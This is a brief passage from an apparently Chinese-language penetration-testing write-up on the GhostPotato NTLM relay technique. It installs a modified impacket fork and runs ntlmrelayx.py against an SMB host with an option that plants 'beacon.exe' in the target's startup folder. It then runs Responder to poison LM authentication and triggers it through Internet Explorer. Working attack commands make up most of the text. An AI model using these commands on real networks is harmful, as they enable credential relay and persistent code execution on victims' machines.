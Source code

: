 ```plain
cd impacket-ghostpotato
pip uninstall impacket
pip install .
cd examples
python3 ntlmrelayx.py -t smb://192.168.91.2 -smb2support --gpotato-startup beacon.exe(内容)
```

[![](assets/1698894308-74a866a50049f1f2eac30789a028da89.png)](https://storage.tttang.com/media/attachment/2022/04/24/dab81c3a-f3db-4b10-8261-09c5c552bc83.png)

```plain
responder -I eth0 --lm
```

使用 IE 浏览器进行访问

[![](assets/1698894308-a46501b92e493f7e3394c9a263ea2530.png)](https://storage.tttang.com/media/attachment/2022/04/24/5f15fff4-28b0-4b3b-9605-a70b2b16ed35.png)
